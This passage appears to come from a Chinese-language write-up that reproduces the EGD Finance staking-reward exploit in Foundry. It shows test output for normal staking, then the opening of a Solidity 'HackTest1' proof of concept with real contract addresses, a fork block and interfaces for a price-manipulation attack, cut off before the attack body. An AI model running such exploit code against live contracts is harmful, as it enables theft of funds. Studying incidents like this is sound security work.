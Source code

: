 ```
~/Desktop/EGDFinanceDemo main !2 9 ❯ forge test --match-contract StakeTest  -vv
[⠑] Compiling...
[⠢] Compiling 1 files with 0.8.17
[⠆] Solc 0.8.17 finished in 2.41s
Compiler run successful

Running 1 test for test/Stake.t.sol:StakeTest
[PASS] testStake() (gas: 868614)
Logs:
  usdt i staked: 100000000000000000000
  edg i have: 0
  edg i get from the stake reward (2 days later): 135123268981974350000
```

可以看到, 在正常情况下 质押 100个USDT, 2天后大约能获取135个EDG



### 在操纵价格后获取EDG奖励

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.10;

import "forge-std/test.sol";

interface IPancakePair {
    function swap(
        uint256 amount0Out,
        uint256 amount1Out,
        address to,
        bytes calldata data
    ) external;
}

interface IEGD_Finance {
    function getEGDPrice() external view returns (uint256);

    function calculateAll(address addr) external view returns (uint256);

    function bond(address invitor) external;

    function stake(uint256 amount) external;

    function claimAllReward() external;
}

interface IERC20 {
    function transfer(address to, uint256 value) external returns (bool);

    function balanceOf(address owner) external view returns (uint256);

    function approve(address spender, uint256 value) external returns (bool);
}

address constant EGD_Finance = 0x34Bd6Dba456Bc31c2b3393e499fa10bED32a9370;
address constant usdt = 0x55d398326f99059fF775485246999027B3197955;
address constant egd = 0x202b233735bF743FA31abb8f71e641970161bF98;
uint256 constant blockheight = 20245522;
IPancakePair constant EGD_USDT_LPPool = IPancakePair(
    0xa361433E409Adac1f87CDF133127585F8a93c67d
);

contract HackTest1 is Test {
```